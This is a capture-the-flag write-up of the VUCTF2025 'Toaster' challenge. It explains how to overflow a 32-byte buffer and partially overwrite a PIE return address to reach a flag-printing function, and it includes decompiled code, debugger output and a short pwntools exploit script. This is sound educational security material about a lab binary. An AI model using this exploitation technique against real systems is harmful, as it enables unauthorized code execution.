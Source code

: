 # VUCTF2025 Toaster
This pwn challenge is a classic ret2win challenge. 

The main function contains calls to `menu()`, which simply prints some text, and to a vulnerable function `kitchen()`.
```
void main(void) {
  menu();
  kitchen();
  return;
}
```
The `kitchen()` function contains a 32 byte buffer, but reads up to 0x42 bytes to it, allowing for a buffer overflow:
```
void kitchen(void) {
  undefined1 local_28 [32];
  
  puts("Please give me your secret recipe? ");
  read(0,local_28,0x42);
  return;
}
```
The binary also contains a `toast()` function, which reads and prints the flag when reached:
```
void toast(void) {
  ...
  
  puts("You managed to make the perfect toast, please enjoy it!");
  iVar1 = setuid(0);
  if (iVar1 == 0) {
    local_c = open("/flag.txt",0);
    if (local_c < 0) {
      perror("open failed");
    }
    else {
      ...
      sVar2 = read(local_c,&local_78,99);
      local_10 = (int)sVar2;
      if (local_10 < 1) {
        perror("read failed");
      }
      else {
        write(1,"FLAG: ",6);
        write(1,&local_78,(long)local_10);
        close(local_c);
      }
    }
  }
  else {
    perror("setuid failed");
  }
  return;
}
```
The challenge is thus clear, we have to overflow the buffer in `kitchen()` to overwrite the return pointer on the stack and return into `toast()`.
However, it is made a bit more difficult by the enabled protections:
```
$ checksec toaster 
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
The main issue is that PIE is enabled, causing the binary to be loaded at a randomized address. This means we won't know the address of `toast()` to return to. 
However, the offsets of functions inside the binary will still be equal. When inspecting the binary we can see that the address of the `toast()` function (`0x0010127d`) is close to the address of `main()` (`0x001013f7`), which the return address of `kitchen()` points to.
This offers an attack vector that can circumvent ASLR. We can try to overwrite only the last byte(s) of the address, leaving the randomised part of the address intact. 
This is possible as the addresses are stored in little endian, meaning the final characters of the address are stored first in memory.

To get a better view of what the randomised address will look like, we can inspect some example loaded addresses of the functions:
```
pwndbg> x toast
0x564a64fd527d <toast>: 0xfa1e0ff3
pwndbg> x main
0x564a64fd53f7 <main>:  0xfa1e0ff3
```
To demonstrate why partially overwriting could work, these addresses are stored in little endian like this:
```
toast():
\x7d\x52\xfd\x64\x4a\x56
main():
\xf7\x53\xfd\x64\x4a\x56
```
Overwriting the start of the return address to `main()` with `\x7d\x52` would thus make it point to `toast()` instead.

Comparing these addresses to those in another run, we can see that the final three characters are always the same, but all the characters before those are random:
```
pwndbg> x toast
0x55d0d5d7127d <toast>: 0xfa1e0ff3
pwndbg> x main
0x55d0d5d713f7 <main>:  0xfa1e0ff3
```
We thus have to overwrite the final three characters of the return pointer with `27d` to return to `toast()`. 
The problem is that we cannot only overwrite the last three bytes due to the way they are stored as described earlier. If we want to overwrite the last three characters, we will also overwrite the 4th last character.
Luckily, this is where the randomness of the addresses can actually help us. We know the address has to end in `x27d`, where `x` is random every time.
However, we can simply choose any character for `x`, and run our attack multiple times until the randomised address loaded equals `x`. which will happen once every 16 runs on average as addresses are hexidecimal.
We can do this using the following pwntools script:
```
io = start()
toast_addr = 0x10127d
payload = b"A" * 0x28
payload += p64(toast_addr)
payload = payload[:0x2a]
io.sendafter(b"Please give me your secret recipe? \n", payload)
io.interactive()
```
This scripts sends 28 bytes of padding to reach the return address. This offset can be found by setting a breakpoint in `kitchen()` before the read, and inspecting the stack using pwndebug.
The result of this can be found below, where the stack shows the offset `0x28` contains the return pointer back to `main()`.

```
────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────
   0x563038ee73c8 <kitchen+5>     mov    rbp, rsp               RBP => 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
   0x563038ee73cb <kitchen+8>     sub    rsp, 0x20              RSP => 0x7ffccb089740 (0x7ffccb089760 - 0x20)
   0x563038ee73cf <kitchen+12>    lea    rax, [rip + 0xdda]     RAX => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d6 <kitchen+19>    mov    rdi, rax               RDI => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d9 <kitchen+22>    call   puts@plt                    <puts@plt>
 
 ► 0x563038ee73de <kitchen+27>    lea    rax, [rbp - 0x20]      RAX => 0x7ffccb089740 ◂— 0
   0x563038ee73e2 <kitchen+31>    mov    edx, 0x42              EDX => 0x42
   0x563038ee73e7 <kitchen+36>    mov    rsi, rax               RSI => 0x7ffccb089740 ◂— 0
   0x563038ee73ea <kitchen+39>    mov    edi, 0                 EDI => 0
   0x563038ee73ef <kitchen+44>    call   read@plt                    <read@plt>
 
   0x563038ee73f4 <kitchen+49>    nop    
──────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffccb089740 ◂— 0
01:0008│-018 0x7ffccb089748 —▸ 0x7ffccb089898 —▸ 0x7ffccb08b222 ◂— 'COLORFGBG=15;0'
02:0010│-010 0x7ffccb089750 —▸ 0x7fe642423000 (_rtld_global) —▸ 0x7fe642424310 —▸ 0x563038ee6000 ◂— 0x10102464c457f
03:0018│-008 0x7ffccb089758 —▸ 0x563038ee727a (menu+113) ◂— nop 
04:0020│ rbp 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
05:0028│+008 0x7ffccb089768 —▸ 0x563038ee7413 (main+28) ◂— nop 
06:0030│+010 0x7ffccb089770 ◂— 1
07:0038│+018 0x7ffccb089778 —▸ 0x7fe642200ca8 (__libc_start_call_main+120) ◂— mov edi, eax

```
This offset is then followed by the last 2 bytes of the address of `toast()` (`0x127d`).

The full script can be found [here](https://github.com/TSpeel/writeups/blob/main/VUCTF2025/Toaster/exploit.py). Remember, the script has to be run on average 16 times to be successful.

## `sendafter()` vs `sendlineafter()`
When I first attempted the challenge, I was having issues where I was not just overwriting the return pointer with `0x0x127d`, but with `0x0a127d`. 
Debugging this cost me quite some time, but it ended up being caused by the fact that my exploit script at this point used `sendlineafter()` instead of `sendafter()`.
`sendlineafter()` also sends a newline character, which ended up becoming `0a` in the return address. Swapping out this function with `sendafter()` solved this problem.

